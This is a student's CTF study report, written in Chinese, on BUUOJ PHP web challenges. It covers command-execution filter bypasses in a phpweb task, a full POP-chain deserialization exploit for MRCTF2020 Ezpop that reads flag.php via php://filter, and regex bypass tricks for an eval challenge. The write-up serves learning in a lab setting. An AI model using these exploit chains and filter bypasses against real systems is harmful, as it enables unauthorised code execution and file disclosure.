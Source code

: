 # 朱海龙学习报告04

前言:本周继续在buuoj上刷题,反序列化刷的比较多

## 网鼎杯 2020 朱雀组phpweb

点进去先是犹豫了会儿，突然跳出来一段字儿

![image-20220406224738599](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406224738599.png)

抓包试试中间是不是自动执行了啥

![image-20220406224855827](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406224855827.png)

发现传递了两个参数，func和p，date是php函数，不难猜到这里有任意命令执行

![image-20220406230621488](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406230621488.png)

尝试system，回显hacker，过滤了

各种函数都试一遍，发现highlight_file、readfile、file_get_contents都是没有过滤的

我们尝试读取下源码

![image-20220406225307854](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406225307854.png)

拿到源码，进行审计

对func参数进行了一些过滤，大概率是无法RCE

这里有两种方法进行绕过

### 解法一

应该算是非预期解

利用\绕过array，可以造成RCE

![image-20220406225624969](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406225624969.png)

找一下flag

![image-20220406225822611](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406225822611.png)

运气不错是这个

![image-20220406230019625](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406230019625.png)

### 解法二

明显看到有一个类却不发挥作用，并且存在魔术方法

很容易让人想到反序列化

![image-20220406231343783](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406231343783.png)



![image-20220406231437287](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406231437287.png)



![image-20220406231750774](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406231750774.png)



![image-20220406231824004](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220406231824004.png)



## MRCTF2020 Ezpop

打开题目直接暴露源码

```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
} 
```

我们看到提示，flag在flag.php中

发现有include，存在文件包含漏洞

可以先进行正推反序列化会调用Show类中的_wakeup()函数和construct()函数

发现construct()并没有啥操作，我们看到_wakeup()有对象当做字符串的操作，想到会调用tostring函数，下面就没有思路了咋办

那就开始逆推，得调用魔术方法_invoke()才能实现include

需要将对象以函数方式调用

我们看到Test类中有这样的操作，但是array函数并不存在，所以这种不可取

同时我们也看到Test类中的_get()函数，我们只需要令p等于一个函数就行了

要调用_get()得需要从不可访问的属性读取数据,这个有很多种操作方式，这里符合整个环境的是令Show类中的tostring的str等于Test从而使得Test类中无source属性进而调用get()

再结合正推，就实现两边一起打中间给打通了

pop链如下

```php
Show::__wakeup
↓↓↓
Show::__toString
↓↓↓
Test::_get
↓↓↓
Modifier::__invoke
```

文件包含使用伪协议执行命令，发现给过滤了一些东西，可以编码绕过

构造如下

```php
<?php
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php' ;
}

class Show{
    public $source;
    public $str;
	public function __construct($file){
    $this->source = $file;
    }
    public function __toString(){
        return "123";
    }
}

class Test{
    public $p;
}

$a = new Show('123');
$a->str = new Test();
$a->str->p = new Modifier();
$b = new Show($a);
echo urlencode(serialize($b));
?>
```

get传参得到flag.php的base64编码

![image-20220409133714076](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220409133714076.png)

解码得到flag

![image-20220409133841688](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220409133841688.png)



## 红队web题

![image-20220409134212293](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220409134212293.png)

flag在config.php中，看到eval存在RCE，绕过正则匹配方法挺多的

### 解法一

过滤;可以通过替换成?>绕过

通过调用POST包绕过其它过滤

因为(被过滤，不能使用函数，需要使用cat类的命令，tac是方便flag直接跳出来，cat、nl、more、less等等都需要f12检查flag

![image-20220409134553555](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220409134553555.png)

### 解法二

过滤.可以通过替换成?绕过

由于\也被过滤，可以通过'   '或“  ”进行绕过正则的特殊单词

![image-20220409141454224](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220409141454224.png)



